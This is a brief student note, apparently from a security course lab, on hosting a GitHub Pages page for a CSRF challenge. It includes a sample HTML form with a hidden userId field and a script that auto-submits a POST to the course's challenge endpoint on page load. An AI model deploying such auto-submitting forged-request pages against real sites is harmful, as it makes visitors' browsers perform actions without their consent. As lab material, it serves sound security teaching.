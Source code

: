 Needed to host a webpage for Unit 2's CSRF2 (Stretch Challenge): adding onemethod using github
Needed to make sure to publish the page from settings and pages


Sample HTML Script:

**<form name="csrf" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
    <input type="hidden" name="userId" value="YOUR TOKEN">
    <input type="submit">
</form>
Hello World
<script>document.csrf.submit();</script>**


***Make sure to change the value to the same CSRF1 ID provided within the challenge. This is unique to me.***
